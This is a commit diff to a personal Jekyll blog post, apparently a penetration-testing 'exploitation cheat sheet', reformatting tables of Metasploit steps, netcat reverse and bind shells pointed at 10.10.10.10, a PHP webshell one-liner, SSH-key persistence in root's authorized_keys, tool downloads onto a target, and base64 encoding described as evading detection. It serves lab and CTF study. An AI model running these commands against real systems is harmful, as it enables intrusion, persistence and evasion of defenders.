

Before and after one commit to pwnerguy/pwnerguy.github.io, a Jekyll site: the page built from _posts/2026-01-25-exploitation-cheatsheet.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; a script that is not in the unit is left out; some of the changed text lies outside the part shown.

Commit message:
fix: bugged pipes (|) and bigger cheatsheet tables

```diff
--- a/_posts/2026-01-25-exploitation-cheatsheet.md
+++ b/_posts/2026-01-25-exploitation-cheatsheet.md
@@ -15,52 +15,51 @@ tags:
 # Introduction
 -----
 
-This is the **Shell & Coffee exploitation cheat sheet** that I will be actively updating through commits as needed.
+Welcome to the **Shell & Coffee Exploitation Cheat Sheet**!
+
+I will be actively updating it through commits as needed
 
 <br>
 # Exploits
 -------------
 
-| **Public Exploits**                                                                                      |                                                                               |
+| **Public Exploits**                                                                                      | **Description**                                                               |
 | -------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- |
+| `searchsploit openssh 7.2`                                                                               | Search for public exploits for a web application. Try to search online too    |
+| `searchsploit -m linux/remote/45233.py`                                                                  | Get the PoC or exploit script                                                 |
+| `msfconsole`                                                                                             | MSF: Start the Metasploit Framework                                           |
+| `search exploit eternalblue`                                                                             | MSF: Search for public exploits in MSF                                        |
+| `use [exploit]`                                                                                          | MSF: Start using an MSF module                                                |
+| `show options`                                                                                           | MSF: Show required options for an MSF module                                  |
+| `set RHOSTS 10.10.10.10`<br>`set LHOSTS eth0`                                                            | MSF: Set a value for an MSF module option                                     |
+| `check`                                                                                                  | MSF: Test if the target server is vulnerable (not supported in some exploits) |
+| `exploit`                                                                                                | MSF: Run the exploit on the target server.                                    |
 | [https://swisskyrepo.github.io/PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings) | PayloadsAllTheThings                                                          |
 | [https://book.hacktricks.wiki/en/index.html](https://book.hacktricks.wiki/en/index.html)                 | HackTricks                                                                    |
-| `keyword` exploit                                                                                        | Simple search on the internet                                                 |
-| `searchsploit [keyword]`                                                                                 | Search for public exploits for a web application                              |
-| `searchsploit -m php/webapps/51042.txt`                                                                  | Get the PoC or exploit script                                                 |
-| `msfconsole`                                                                                             | MSF: Start the Metasploit Framework                                           |
-| `search exploit eternalblue`                                                                             | MSF: Search for public exploits in MSF                                        |
-| `use exploit/windows/smb/ms17_010_psexec`                                                                | MSF: Start using an MSF module                                                |
-| `show options`                                                                                           | MSF: Show required options for an MSF module                                  |
-| `set RHOSTS [ip]`<br>`set LHOSTS [interface]`                                                            | MSF: Set a value for an MSF module option                                     |
-| `check`                                                                                                  | MSF: Test if the target server is vulnerable (not supported in some exploits) |
-| `exploit`                                                                                                | MSF: Run the exploit on the target server.                                    |
 
 <br>
 # Shells
 ---------
 
-| **Shells**                                                                                                                                                                           |                                                                                      |
-| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------ |
-| `nc -lvnp [port]`                                                                                                                                                                    | Start a `nc` `l`istener, `v`erbose mode, `D`NS resolution disabled in a local `p`ort |
-| [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) | Reverse shells cheat sheet.                                                          |
-| [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/)       | Bind shells cheat sheet.<br>                                                         |
-| `nc [ip] [port]`                                                                                                                                                                     | Connect to a bind shell started on the remote server                                 |
-| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc [ip] [port] >/tmp/f` (reverse)<br>`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp [port] >/tmp/f` (bind)    | Forward Shells                                                                       |
-| `script /dev/null -c bash`<br>`ctrl+z`<br>`stty raw -echo; fg`<br>`reset xterm`<br>`export TERM=xterm`<br>`export SHELL=bash`<br>`stty rows 45 columns 184`                          | TTY upgrading                                                                        |
-| `python -c 'import pty; pty.spawn("/bin/bash")'`                                                                                                                                     | TTY upgrading (python)                                                               |
-| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                                                                                                                    | Create a webshell php file                                                           |
-| `curl http://[ip]/shell.php?cmd=id`                                                                                                                                                  | Execute a command on an uploaded webshell                                            |
+| **Shells**                                                                                                                                                                                          | **Description**                                                                      |
+| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------ |
+| `nc -lvnp 4444`                                                                                                                                                                                     | Start a `nc` `l`istener, `v`erbose mode, `D`NS resolution disabled in a local `p`ort |
+| `nc 10.10.10.10 4444`                                                                                                                                                                               | Connect to a bind shell started on the remote server                                 |
+| [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)                | Reverse shells cheat sheet.                                                          |
+| [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/)                      | Bind shells cheat sheet.<br>                                                         |
+| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f `\|` /bin/sh -i 2>&1 `\|` nc 10.10.10.10 4444 >/tmp/f` (reverse)<br>`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f `\|` /bin/bash -i 2>&1 `\|`nc -lvp 4444 >/tmp/f` (bind) | Forward Shells                                                                       |
+| `script /dev/null -c bash`<br>`ctrl+z`<br>`stty raw -echo; fg`<br>`reset xterm`<br>`export TERM=xterm`<br>`export SHELL=bash`<br>`stty rows 45 columns 184`                                         | TTY upgrading                                                                        |
+| `python -c 'import pty; pty.spawn("/bin/bash")'`                                                                                                                                                    | TTY upgrading (python)                                                               |
+| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                                                                                                                                   | Create a webshell php file                                                           |
+| `curl http://10.10.10.10/shell.php?cmd=id`                                                                                                                                                          | Execute a command on an uploaded webshell                                            |
 
 <br>
 # Post-Exploitation
 -------
 
-| **Post-Exploitation**                                                        |                                                                                                                                                                                           |
+| **Post-Exploitation**                                                        | **Description**                                                                                                                                                                           |
 | ---------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
 | **PrivEsc**                                                                  |                                                                                                                                                                                           |
-| [https://gtfobins.org/](https://gtfobins.org/)                               | GTFOBins                                                                                                                                                                                  |
-| [https://lolbas-project.github.io/](https://lolbas-project.github.io/)       | LOLBAS                                                                                                                                                                                    |
 | `./linpeas.sh`                                                               | Run `linpeas` script to enumerate remote server                                                                                                                                           |
 | `./lse.sh`                                                                   | Run `lse` script to enumerate remote server                                                                                                                                               |
 | `sudo -l`                                                                    | List available `sudo` privileges                                                                                                                                                          |
@@ -69,18 +68,21 @@ This is the **Shell & Coffee exploitation cheat sheet** that I will be actively
 | `sudo su user -`                                                             | Switch to a user (if we have access to `sudo su`)                                                                                                                                         |
 | `find / -perm -4000 -ls 2>/dev/null`                                         | Find SUID binaries                                                                                                                                                                        |
 | `ssh-keygen -f key`                                                          | Create a new SSH key                                                                                                                                                                      |
-| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user                                                                                                                                                  |
-| `ssh [user]@[ip] -i key`                                                     | SSH to the server with the generated private key                                                                                                                                          |
+| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Once key.pub it's in the system, add the generated public key to the user                                                                                                                 |
+| `ssh user@10.10.10.10 -i key`                                                | SSH to the server with the generated private key                                                                                                                                          |
+| `chmod 600 id_rsa`<br>`ssh user@10.10.10.10 -i id_rsa`                       | If you have read acces to the user's SSH private key, copy it in a file, chmod it and ssh the server                                                                                      |
 | `crontab -l`                                                                 | Cron jobs of my user                                                                                                                                                                      |
 | `systemctl list-timers`                                                      | Time left to execute each job                                                                                                                                                             |
 | `/etc/crontab`<br>`/etc/cron.d`<br>`/var/spool/cron/crontabs/root`           | Write access to any of those files will allow us to to add new cron jobs. Also if we can write to a directory called by a cron job, we can write a reverse shell and it will be executed. |
 | `./pspy`                                                                     | Analyze running cron jobs                                                                                                                                                                 |
 | `getcap .r & 2>/dev/null`                                                    | Capabilities search in the system                                                                                                                                                         |
+| [https://gtfobins.org/](https://gtfobins.org/)                               | GTFOBins                                                                                                                                                                                  |
+| [https://lolbas-project.github.io/](https://lolbas-project.github.io/)       | LOLBAS                                                                                                                                                                                    |
 | **Transferring Files**                                                       |                                                                                                                                                                                           |
-| `python3 -m http.server [port]`                                              | Start a local webserver                                                                                                                                                                   |
-| `wget http://[ip]:[port]/linpeas.sh`                                         | Download a file on the remote server from our local machine                                                                                                                               |
-| `curl http://[ip]:[port]/linenum.sh -o linenum.sh`                           | Download a file on the remote server from our local machine                                                                                                                               |
-| `scp linenum.sh [user]@[ip]:/tmp/linenum.sh`                                 | Transfer a file to the remote server with `scp` (requires SSH access)                                                                                                                     |
-| `base64 shell -w 0`                                                          | Convert a file to `base64`                                                                                                                                                                |
-| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`                            | Convert a file from `base64` back to its orig                                                                                                                                             |
+| `python3 -m http.server 4444`                                                | Start a local webserver                                                                                                                                                                   |
+| `wget http://10.10.10.10:4444/linenum.sh`                                    | Download a file on the remote server from our local machine                                                                                                                               |
+| `url http://10.10.10.10:4444/linenum.sh -o linenum.sh`                       | Download a file on the remote server from our local machine                                                                                                                               |
+| `scp linenum.sh user@10.10.10.10:/tmp/linenum.sh`                            | Transfer a file to the remote server with `scp` (requires SSH access with password)                                                                                                       |
+| `base64 linenum.sh -w 0`                                                     | Convert a file to `base64`, useful to avoid detection                                                                                                                                     |
+| `echo f0VMR...SNIO...InmDwU `\|` base64 -d > linenum.sh`                     | Convert a file from `base64` back to its orig                                                                                                                                             |
 | `md5sum shell`                                                               | Check the file's `md5sum` to ensure it converted correctly                                                                                                                                |
--- a/assets/css/main.scss
+++ b/assets/css/main.scss
@@ -65,6 +65,11 @@ body {
   margin-top: 90px;
 }
 
+/* Table font sizes */
+.page__content table {
+  font-size: 17px;
+}
+
 .masthead {
   position: fixed;
   top: 0;
```
Also changed, not shown: _posts/2026-01-25-enum-cheatsheet.md (deleted, +0 -154 lines), _posts/2026-01-25-enumeration-cheatsheet.md (added, +155 -0 lines), 2026-01-07.md (added), favicon.ico (added). Lines whose indentation alone changed are shown as unchanged.
